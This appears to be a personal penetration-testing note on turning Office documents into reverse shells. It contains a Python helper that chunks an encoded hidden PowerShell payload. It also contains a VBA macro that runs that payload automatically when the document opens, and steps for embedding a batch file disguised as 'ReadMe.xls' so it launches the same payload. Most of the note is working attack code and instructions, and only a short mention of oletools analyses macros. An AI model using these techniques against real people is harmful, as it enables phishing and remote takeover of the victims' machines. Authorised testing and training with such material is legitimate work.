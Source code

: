 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Office macro reverse shell
[[1._Reverse Shells (WIN)#hta raw]]

Copy everything from: 
"powershell.exe -nop -w hidden -e ....... " into the str variable in split.py:

split.py
```python - kali
str = 

n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

run the python file:

```bash - kali
python split.py
```

Paste to notepad++, shift over 1 tab.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	.......................
    Str = Str + "wB0AGEAcgB0ACgAJABzACkAOwA="
    
    CreateObject("Wscript.Shell").Run Str

End Sub

```

New document in Word.
View > Macros > View Macros

Macro name: MyMacro

Macros in: Document1

![[Pasted image 20220603093224.png]]

Click Create.

Paste in Macro code.  Save.

Tools to help analyze the VBA Macro in the document:
https://github.com/decalage2/oletools/wiki/Install
```bash - kali
sudo -H pip install -U oletools
```

https://github.com/decalage2/oletools/wiki/olevba
```bash - kali
olevba --reveal Shelly.doc
```

#### Office Object Linking and Embedding

First, make a "launch.bat" file.

Paste in your powershell code form above:

```
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4kAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAU.....
vAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA= 
```

Insert > Object > Create from File > launch.bat

Select "Display as icon"
Click "Change Icon"
Chang icon if desired.
Change the Caption: "ReadMe.xls"

Click "OK"


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
